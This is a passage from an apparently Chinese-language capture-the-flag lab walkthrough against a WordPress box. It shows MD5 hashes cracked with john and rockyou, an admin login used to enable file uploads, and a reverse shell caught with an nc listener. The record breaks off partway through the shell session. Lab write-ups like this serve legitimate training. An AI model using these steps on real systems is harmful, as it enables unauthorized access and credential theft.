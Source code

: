     -   将获得的账号密码进行破解。

    -   ![image-20230602092428666](https://raw.githubusercontent.com/r0o983/images/main/image-20230602092428666.png)

-   使用john对得到的密码进行破解

-   ```shell
    └─$ cat crask-user                                    
    NickJames:21232f297a57a5a743894a0e4a801fc3
    JohnSmith:b986448f0bb9e5e124ca91d3d650f52c
    GeorgeMiller:7cbb3252ba6b7e9c422fac5334d22054
    TonyBlack:a6e514f9486b83cb53d8d932f9a04292
    JasonKonnors:8601f6e1028a8e8a966f6c33fcd9aec4
    MaxBucky:50484c19f1afdaf3841a0d821ed393d2
    
    └─$ john --format=Raw-MD5 crask-user --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 6 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 4x3])
    Warning: no OpenMP support for this hash type, consider --fork=4
    Press 'q' or Ctrl-C to abort, almost any other key for status
    maxwell          (JasonKonnors)     
    napoleon         (TonyBlack)     
    q1w2e3           (GeorgeMiller)     
    admin            (NickJames)     
    PUPPIES          (JohnSmith)     
    kernel           (MaxBucky)     
    6g 0:00:00:00 DONE (2023-05-30 20:16) 600.0g/s 8524Kp/s 8524Kc/s 17625KC/s lashan..joey33
    Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
    Session completed. 
    ```



### 登陆测试

查找wordpress管理后台，一般情况下的管理后台地址为：`wp-admin`

-   使用密码依次尝试登陆
-   ![image-20230602092937395](https://raw.githubusercontent.com/r0o983/images/main/image-20230602092937395.png)
-   经过最终测试，发现只有`GeorgeMiller`用户具有管理员权限，直接选择开启上传，和增加可上传的类型
-   ![image-20230602093058547](https://raw.githubusercontent.com/r0o983/images/main/image-20230602093058547.png)
-   上传反弹shell成功，并展示了上传的路径
-   ![image-20230602093429115](https://raw.githubusercontent.com/r0o983/images/main/image-20230602093429115.png)



### 获得反弹shell

-   建立监听并尝试访问反弹shell

-   ```shell
    └─$ sudo nc -nvlp 1234                        
    [sudo] password for kali: 
    listening on [any] 1234 ...
    connect to [192.168.2.128] from (UNKNOWN) [192.168.2.140] 53776
    bash: no job control in this shell
    bash-4.0$ whoami
    whoami
    apache
    bash-4.0$ ip a
    ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo